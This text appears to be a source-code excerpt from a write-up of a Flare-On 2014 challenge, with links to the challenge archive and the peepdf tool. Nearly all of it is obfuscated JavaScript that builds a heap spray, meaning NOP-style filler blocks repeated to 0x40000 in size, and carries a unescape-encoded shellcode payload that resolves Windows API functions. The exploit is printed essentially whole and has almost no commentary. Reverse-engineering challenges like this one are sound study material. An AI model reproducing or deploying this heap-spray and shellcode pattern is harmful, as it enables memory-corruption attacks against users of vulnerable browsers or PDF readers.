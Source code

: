 ```javascript
var IxTUQnOvHg = unescape("%u72f9%u4649%u1525%u7f0d%u3d3c%ue084%ud62a%ue139%ua84a%u76b9%u9824%u7378%u7d71%u757f%u2076%u96d4%uba91%u1970%ub8f9%ue232%u467b%u9ba8%ufe01%uc7c6%ue3c1%u7e24%u437c%ue180%ub115%ub3b2%u4f66%u27b6%u9f3c%u7a4e%u412d%ubbbf%u7705%uf528%u9293%u9990%ua998%u0a47%u14eb%u3d49%u484b%u372f%ub98d%u3478%u0bb4%ud5d2%ue031%u3572%ud610%u6740%u2bbe%u4afd%u041c%u3f97%ufc3a%u7479%u421d%ub7b5%u0c2c%u130d%u25f8%u76b0%u4e79%u7bb1%u0c66%u2dbb%u911c%ua92f%ub82c%u8db0%u0d7e%u3b96%u49d4%ud56b%u03b7%ue1f7%u467d%u77b9%u3d42%u111d%u67e0%u4b92%ueb85%u2471%u9b48%uf902%u4f15%u04ba%ue300%u8727%u9fd6%u4770%u187a%u73e2%ufd1b%u2574%u437c%u4190%u97b6%u1499%u783c%u8337%ub3f8%u7235%u693f%u98f5%u7fbe%u4a75%ub493%ub5a8%u21bf%ufcd0%u3440%u057b%ub2b2%u7c71%u814e%u22e1%u04eb%u884a%u2ce2%u492d%u8d42%u75b3%uf523%u727f%ufc0b%u0197%ud3f7%u90f9%u41be%ua81c%u7d25%ub135%u7978%uf80a%ufd32%u769b%u921d%ubbb4%u77b8%u707e%u4073%u0c7a%ud689%u2491%u1446%u9fba%uc087%u0dd4%u4bb0%ub62f%ue381%u0574%u3fb9%u1b67%u93d5%u8396%u66e0%u47b5%u98b7%u153c%ua934%u3748%u3d27%u4f75%u8cbf%u43e2%ub899%u3873%u7deb%u257a%uf985%ubb8d%u7f91%u9667%ub292%u4879%u4a3c%ud433%u97a9%u377e%ub347%u933d%u0524%u9f3f%ue139%u3571%u23b4%ua8d6%u8814%uf8d1%u4272%u76ba%ufd08%ube41%ub54b%u150d%u4377%u1174%u78e3%ue020%u041c%u40bf%ud510%ub727%u70b1%uf52b%u222f%u4efc%u989b%u901d%ub62c%u4f7c%u342d%u0c66%ub099%u7b49%u787a%u7f7e%u7d73%ub946%ub091%u928d%u90bf%u21b7%ue0f6%u134b%u29f5%u67eb%u2577%ue186%u2a05%u66d6%ua8b9%u1535%u4296%u3498%ub199%ub4ba%ub52c%uf812%u4f93%u7b76%u3079%ubefd%u3f71%u4e40%u7cb3%u2775%ue209%u4324%u0c70%u182d%u02e3%u4af9%ubb47%u41b6%u729f%u9748%ud480%ud528%u749b%u1c3c%ufc84%u497d%u7eb8%ud26b%u1de0%u0d76%u3174%u14eb%u3770%u71a9%u723d%ub246%u2f78%u047f%ub6a9%u1c7b%u3a73%u3ce1%u19be%u34f9%ud500%u037a%ue2f8%ub024%ufd4e%u3d79%u7596%u9b15%u7c49%ub42f%u9f4f%u4799%uc13b%ue3d0%u4014%u903f%u41bf%u4397%ub88d%ub548%u0d77%u4ab2%u2d93%u9267%ub198%ufc1a%ud4b9%ub32c%ubaf5%u690c%u91d6%u04a8%u1dbb%u4666%u2505%u35b7%u3742%u4b27%ufc90%ud233%u30b2%uff64%u5a32%u528b%u8b0c%u1452%u728b%u3328%ub1c9%u3318%u33ff%uacc0%u613c%u027c%u202c%ucfc1%u030d%ue2f8%u81f0%u5bff%u4abc%u8b6a%u105a%u128b%uda75%u538b%u033c%uffd3%u3472%u528b%u0378%u8bd3%u2072%uf303%uc933%uad41%uc303%u3881%u6547%u5074%uf475%u7881%u7204%u636f%u7541%u81eb%u0878%u6464%u6572%ue275%u8b49%u2472%uf303%u8b66%u4e0c%u728b%u031c%u8bf3%u8e14%ud303%u3352%u57ff%u6168%u7972%u6841%u694c%u7262%u4c68%u616f%u5464%uff53%u68d2%u3233%u0101%u8966%u247c%u6802%u7375%u7265%uff54%u68d0%u786f%u0141%udf8b%u5c88%u0324%u6168%u6567%u6842%u654d%u7373%u5054%u54ff%u2c24%u6857%u2144%u2121%u4f68%u4e57%u8b45%ue8dc%u0000%u0000%u148b%u8124%u0b72%ua316%u32fb%u7968%ubece%u8132%u1772%u45ae%u48cf%uc168%ue12b%u812b%u2372%u3610%ud29f%u7168%ufa44%u81ff%u2f72%ua9f7%u0ca9%u8468%ucfe9%u8160%u3b72%u93be%u43a9%ud268%u98a3%u8137%u4772%u8a82%u3b62%uef68%u11a4%u814b%u5372%u47d6%uccc0%ube68%ua469%u81ff%u5f72%ucaa3%u3154%ud468%u65ab%u8b52%u57cc%u5153%u8b57%u89f1%u83f7%u1ec7%ufe39%u0b7d%u3681%u4542%u4645%uc683%ueb04%ufff1%u68d0%u7365%u0173%udf8b%u5c88%u0324%u5068%u6f72%u6863%u7845%u7469%uff54%u2474%uff40%u2454%u5740%ud0ff");
var MPBPtdcBjTlpvyTYkSwgkrWhXL = "";

for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=128;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA>=0;--EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA) MPBPtdcBjTlpvyTYkSwgkrWhXL += unescape("%ub32f%u3791");
ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv = MPBPtdcBjTlpvyTYkSwgkrWhXL + IxTUQnOvHg;
OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY = unescape("%ub32f%u3791");
fJWhwERSDZtaZXlhcREfhZjCCVqFAPS = 20;
fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA = fJWhwERSDZtaZXlhcREfhZjCCVqFAPS+ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv.length
while (OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.length<fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA) OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY+=OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY;
UohsTktonqUXUXspNrfyqyqDQlcDfbmbywFjyLJiesb = OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.substring(0, fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA);
MOysyGgYplwyZzNdETHwkru = OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.substring(0, OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.length-fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA);
while(MOysyGgYplwyZzNdETHwkru.length+fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA < 0x40000) MOysyGgYplwyZzNdETHwkru = MOysyGgYplwyZzNdETHwkru+MOysyGgYplwyZzNdETHwkru+UohsTktonqUXUXspNrfyqyqDQlcDfbmbywFjyLJiesb;
DPwxazRhwbQGu = new Array();
for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=0;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA<100;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA++) DPwxazRhwbQGu[EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA] = MOysyGgYplwyZzNdETHwkru + ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv;

for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=142;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA>=0;--EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA) zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf += unescape("%ub550%u0166");
bGtvKT = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length + 20
while (zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length < bGtvKT) zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf += zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf;
Juphd = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.substring(0, bGtvKT);
```

  [c2c76e1c]: http://www.flare-on.com/files/2014_FLAREOn_Challenges.zip "Flare-On 2014"
  [peepdf]: https://github.com/jesparza/peepdf "PeePDF"
